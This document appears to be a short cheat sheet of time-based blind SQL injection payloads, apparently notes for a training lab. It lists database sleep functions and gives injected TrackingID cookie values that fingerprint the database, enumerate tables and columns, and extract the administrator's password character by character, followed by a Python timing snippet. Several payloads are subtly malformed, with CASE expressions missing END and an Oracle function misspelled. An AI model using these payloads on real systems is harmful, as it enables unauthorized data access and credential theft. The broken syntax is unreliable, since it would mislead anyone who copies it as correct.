 Different time delay techniques for different databases
```
ORACLE - dbms_pipe.recieve_message(('a'),5)
PostgreSQL - pg_sleep(5)
Microsoft - WAITFOR DELAY '0:0:5'
MySQL - sleep(5)
```

Checking the type of database 
```
Cookie : TrackingID = abcdef';(SELECT '' from information_schema.tables LIMIT 1)-- -

Cookie : TrackingID = abcdef'%3B(sleep(5))-- -

Cookie : TrackingID = abcdef'%3B(pg_sleep(5))-- -
```

Bruteforcing tables
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' from $table_name$) -- -
```

Bruteforcing columns
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN SUBSTRING(CONCAT('a',$username$),1,1)='a' THEN pg_sleep(5) ELSE '' from table_name) -- -
```

Bruteforcing data 
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' from table_name where username='$administrator$') -- -

Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN SUBSTRING(password,1,1)='$a$' THEN pg_sleep(5) ELSE '' from users where username='administrator') -- -

```

Python code to test the response delay
```python
import requests
r = requests.get(url)
print(r.elapsed.total_seconds())
```
